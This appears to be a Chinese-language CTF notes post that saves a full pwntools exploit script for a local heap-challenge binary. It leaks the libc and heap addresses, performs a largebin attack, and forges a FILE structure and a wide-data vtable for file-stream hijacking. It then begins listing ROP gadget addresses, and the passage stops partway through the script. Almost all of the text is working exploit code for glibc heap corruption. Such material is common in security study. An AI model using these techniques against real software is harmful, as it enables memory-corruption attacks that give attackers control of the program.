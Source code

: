 # exp
下面就是完整exp，主要是留个档，哪天要是忘了一些细节在回来翻翻
```python
def debug(io):
    gdb.attach(io,
    '''
    b add_note
    # b delete_note
    # b edit_note
    # b show_note
    b *_IO_flush_all_lockp
    b *svcudp_reply+26
    '''
    )

io = process("./pwn")

def add(index,size):
    io.sendlineafter(b'Exit',b'1')
    io.sendlineafter(b'Index: ',str(index))
    io.sendlineafter(b'Size: ',str(size))
def delete(index):
    io.sendlineafter(b'Exit',b'2')
    io.sendlineafter(b'Index: ',str(index))
def edit(index,content):
    io.sendlineafter(b'Exit',b'3')
    io.sendlineafter(b'Index: ',str(index))
    io.sendafter(b'Content: ',content)
def show(index):
    io.sendlineafter(b'Exit',b'4')
    io.sendlineafter(b'Index: ',str(index))

add(0,0x510)
add(1,0x508)
add(2,0x500)
delete(0)
add(3,0x520)
show(0)
libc_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x1f70f0
edit(0,b'aaaaaaaa'*2)
show(0)
io.recvuntil(b'aaaaaaaaaaaaaaaa')
heap_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x290
log.success(hex(libc_base))
log.success(hex(heap_base))
edit(0,p64(libc_base + 0x1f70f0)*2 + p64(heap_base + 0x290) + p64(libc_base + 0x1f7640))
delete(2)
add(4,0x520)

fake_io_list = b'\x00'*0x18 + p64(0x1) + b'\x00'*0x18 + p64(heap_base + 0x1710) + b'\x00'*0x50 + p64(heap_base + 0x2c0) + b'\x00'*(0xd8-0xa8) + p64(libc_base + 0x1f30a0)
edit(2,fake_io_list)

fake_wide_data = b'\x00'*0x100 + p64(heap_base + 0x11f0)
edit(0,fake_wide_data)
fake_wide_data_vtable = b'\x00'*0x78 + p64(libc_base + 0x1630aa)
edit(3,fake_wide_data_vtable)

leave_ret = libc_base + 0x50877
rax = libc_base + 0x3fa43
rdi = libc_base + 0x23b65
rsi = libc_base + 0x251be
```